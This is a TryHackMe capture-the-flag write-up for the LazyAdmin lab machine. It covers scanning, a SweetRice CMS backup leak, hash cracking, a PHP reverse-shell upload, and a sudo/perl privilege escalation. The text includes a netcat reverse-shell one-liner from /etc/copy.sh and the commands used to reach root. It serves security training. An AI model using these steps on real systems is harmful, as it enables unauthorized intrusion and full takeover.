


+++
title = "LazyAdmin - TryHackMe Writup"
description = "Easy linux machine to practice skill."
date = 2024-10-22
slug = "lazy-admin"
image = "lazy_admin.jpeg"

[taxonomies]
categories = ["TryHackMe", "Writups"]
tags = ["lazyadmin", "tryhackme", "reverse shell"]
+++

  

    
  

  

    <i>Easy linux machine to practice your skills.</i>
  

## 0. Scanning

Target IP: 10.10.204.37

2 ports are opened.
<pre>
❯ nmap -sV -Pn 10.10.204.37 -v
Starting Nmap 7.95 ( https://nmap.org ) at 2024-10-11 16:46 +0545
........
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
</pre>

## 1. Enumeration
Enumerating port 80, we have default apache page. Now using gobuster to find out directories.

<pre>
❯ gobuster dir -u http://10.10.204.37/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.204.37/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/content              (Status: 301) [Size: 314] [--> http://10.10.204.37/content/]
.....
</pre>

Looking into `/content` page, we have `SweetRice notice`, this is the website management system.

Looking for the exploit, we have the result

Looking into backup disclosure exploit, we have following information about the exploit 
<pre>
Title: SweetRice 1.5.1 - Backup Disclosure
Application: SweetRice
Versions Affected: 1.5.1
Vendor URL: http://www.basic-cms.org/
Software URL: http://www.basic-cms.org/attachment/sweetrice-1.5.1.zip
Discovered by: Ashiyane Digital Security Team
Tested on: Windows 10
Bugs: Backup Disclosure
Date: 16-Sept-2016

Proof of Concept :

You can access to all mysql backup and download them from this directory.
http://localhost/inc/mysql_backup

and can access to website files backup from:
http://localhost/SweetRice-transfer.zip
</pre>

Now looking into the mysql_backup dir, there is mysql backup. On the 79 th line of the file, we have what we needed for now, there is admin name and its password in hash format.

Like `inc` dir we can have others too, so finding dir in `/content`, we have `as` dir. This is the admin login page.

## 2. Exploitation
Break the earlier hash, and login with username and password.
<pre>
username: ma*****
password hash: 42f749ade7f9e195bf475f**********
password: Passw******
</pre>
Cracked using john, 

`john --format=raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt password.hash`

We looged in into the admin panel.

I'm using media center to upload the reverse shell exploit, provided by `pentestmonkey`. I changed IP address and uploaded there. Maybe need to change the extension, made `phtml` and the file uploaded there.

## 3. Gaining Access
Now setup nc listening on port `1234` in my host machine, and executing the exploit we will get the connection.

<pre>
❯ nc -lvnp 1234
Listening on 0.0.0.0 1234
Connection received on 10.10.204.37 37452
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 14:57:51 up 57 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
</pre>

We got the user flag as
<pre>
$ ls /home
itguy
$ ls /home/itguy
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
backup.pl
examples.desktop
mysql_login.txt
user.txt
$ cat /home/itguy/user.txt
THM{63e5bce9271952aad1**************}
</pre>

## 4. Privilege Escalation
It seems we can run perl, and can be use sudo so this is a good chance to esclate privilege.
<pre>
$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
</pre>

We have this code inside the `backup.pl`
<pre>
$ cat /home/itguy/backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
$ ls -l /etc/copy.sh

-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
</pre>

We have write permission to the file. Now need to change IP to my local IP, so that we can set the bind shell. Finally got connected to the target machine with user `root`.

Alternatively spawn the shell, which would be the root shell as ran with sudo, shown below.

<pre>
$ echo "/bin/bash" > /etc/copy.sh
$ sudo /usr/bin/perl /home/itguy/backup.pl
whoami
root
cat /root/root.txt
THM{6637f41d0177b6f37cb20d**********}
</pre>

Thats all, we got all the flags.

Happy Hacking !!